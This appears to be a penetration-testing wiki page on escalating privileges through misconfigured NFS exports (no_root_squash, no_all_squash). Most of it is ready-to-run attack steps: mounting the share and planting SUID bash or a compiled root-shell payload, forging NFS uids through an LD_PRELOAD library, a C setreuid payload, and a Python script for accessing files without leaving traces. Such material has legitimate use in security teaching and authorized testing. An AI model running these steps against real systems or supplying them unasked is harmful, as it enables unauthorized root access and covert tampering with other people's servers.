 Read the _ /etc/exports _ file, if you find some directory that is configured as no_root_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

no_all_squash: This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no_all_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the /bin/bash binary and giving it SUID rights, and executing from the victim machine that bash binary.

```
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

Mounting that directory in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it SUID rights, and execute from the victim machine that binary (you can find here some).

```
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

### Local Exploit

Note that if you can create a tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports.
The following trick is in case the file `/etc/exports` indicates an IP. In this case you won't be able to use in any case the remote exploit and you will need to abuse this trick.
Another required requirement for the exploit to work is that the export inside `/etc/export` must be using the `insecure` flag.
--I'm not sure that if `/etc/export` is indicating an IP address this trick will work--

### Basic Information

The scenario involves exploiting a mounted NFS share on a local machine, leveraging a flaw in the NFSv3 specification which allows the client to specify its uid/gid, potentially enabling unauthorized access. The exploitation involves using , a library that allows for the forging of NFS RPC calls.

#### Compiling the Library

The library compilation steps might require adjustments based on the kernel version. In this specific case, the fallocate syscalls were commented out. The compilation process involves the following commands:

```
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Conducting the Exploit

The exploit involves creating a simple C program (`pwn.c`) that elevates privileges to root and then executing a shell. The program is compiled, and the resulting binary (`a.out`) is placed on the share with suid root, using `ld_nfs.so` to fake the uid in the RPC calls:

1. Compile the exploit code:

```
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. Place the exploit on the share and modify its permissions by faking the uid:

```
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. Execute the exploit to gain root privileges:

```
/mnt/share/a.out
#root
```

### Bonus: NFShell for Stealthy File Access

Once root access is obtained, to interact with the NFS share without changing ownership (to avoid leaving traces), a Python script (nfsh.py) is used. This script adjusts the uid to match that of the file being accessed, allowing for interaction with files on the share without permission issues:

```
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

Run like:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```